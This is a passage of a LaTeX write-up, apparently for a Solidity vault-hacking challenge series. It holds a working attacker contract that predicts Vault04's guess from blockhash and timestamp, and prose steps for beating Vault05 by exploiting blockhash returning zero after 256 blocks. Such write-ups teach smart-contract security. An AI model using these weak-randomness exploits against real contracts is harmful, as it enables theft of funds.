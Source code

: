 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.28;
    
    interface IVault04 {
        function breachVault(uint256 _password) external returns (bool);
    }
    
    contract Vault04Attack {
        IVault04 public vault;
    
        constructor(address _vaultAddress) {
            vault = IVault04(_vaultAddress);
        }
    
        // Function to perform the attack
        function attack() external returns (bool) {
            // Compute the guess using on-chain values in the same transaction.
            uint256 guess = uint256(
                keccak256(
                    abi.encodePacked(blockhash(block.number - 1), block.timestamp)
                )
            ) % 100;
            
            return vault.breachVault(guess);
        }
    }
\end{lstlisting}
\end{minipage}

\noindent
Since the guess is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the \texttt{blockhash} and \texttt{timestamp} remain valid when the vault processes the request.

\subsection*{Vault05: Fortune Teller}

To breach \texttt{Vault05}, you need to use the \texttt{blockhash} of the block when the guess was locked in, but only after the next block has been mined. First, you lock the guess using \texttt{lockInGuess}. Then, you must wait for the next block and calculate the random number using \texttt{blockhash(lockInBlockNumber)}. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of the previous blocks. However, since the \texttt{blockhash} function only returns the blockhash for the last 256 blocks, otherwise it returns zero (see \href{https://docs.soliditylang.org/en/latest/units-and-global-variables.html}{Solidity documentation}). Therefore, we simply lock in a 0 and mine 256 blocks before calling \texttt{breachVault} function.
\end{document}
